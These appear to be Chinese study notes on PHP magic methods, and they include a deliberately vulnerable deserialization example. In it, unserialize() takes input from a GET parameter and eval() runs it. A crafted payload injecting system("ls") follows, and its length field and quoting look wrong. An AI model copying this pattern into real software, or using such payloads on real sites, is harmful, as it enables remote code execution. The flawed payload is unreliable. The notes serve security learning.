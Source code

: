   

* __destruct()，类的析构函数

  ```php
  //析构函数，在对象的所有引用被删除或者当对象被显式销毁时执行的魔术方法
  <?php
  highlight_file(__FILE__);
  class User {
      public function __destruct()
      {
          echo "触发了析构函数1次"."<br />" ;
      }
  }
  $test = new User("benben");//实例化对象结束后，代码运行完会销毁，触发析构函数__destruct()
  $ser = serialize($test);//序列化不会触发
  unserialize($ser);//反序列化会触发
  
  /*例题*/
  
  <?php
  class User {
      var $cmd = "echo 'dazhuang666!!';" ;
      public function __destruct()
      {
          eval ($this->cmd);
      }
  }
  $ser = $_GET["benben"];
  unserialize($ser);
  
  //unserialize()触发__destruct()
  //destruct()执行eval()
  //eval()触发代码
  
  构造?benben=O:4:"User":1:{s:3:"cmd";s:13:"echo 'system("ls")';";}
  ```
  
  

* __call()，在对象中调用一个不可以访问方法时调用

  ```php
  //触发时机：调用一个不存在的方法
  //参数：2个参数传参$arg1,$arg2
  //返回值：调用的不存在的方法的名称和参数
  <?php
  highlight_file(__FILE__);
  error_reporting(0);
  class User {
      public function __call($arg1,$arg2)
      {
          echo "$arg1,$arg2[0]";
      }
  }
  $test = new User() ;
  $test -> callxxx('a');
  //输出
  callxxx,a
  ```
